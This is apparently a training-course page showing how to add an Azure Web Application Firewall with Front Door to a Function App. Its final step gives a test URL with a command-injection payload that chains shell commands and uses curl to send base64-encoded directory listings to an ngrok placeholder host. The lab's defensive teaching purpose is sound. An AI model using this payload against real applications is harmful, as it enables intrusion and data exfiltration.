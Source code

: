 # Web Application Firewall

This part of the module is pretty graphical.

To save copying/pasting a ton of screenshots here, please follow along with the instructor for this part of the course. 


1. Function App in Portal
2. Settings
3. Network
4. Add WAF With FrontDoor
5. Navigate to WAF
   1. Turn on blocking
   2. Check rules
6. Test our malicious code command again

```bash
https://<FUNCTION_APP_NAME>.azurewebsites.net/api/slsSec?name=Sarah%20;%20echo%20%22Hello%22%20;%20curl%20<NGROK_DOMAIN>.ngrok.io?data=$(ls%20/tmp%20|%20base64%20--wrap=0)
```
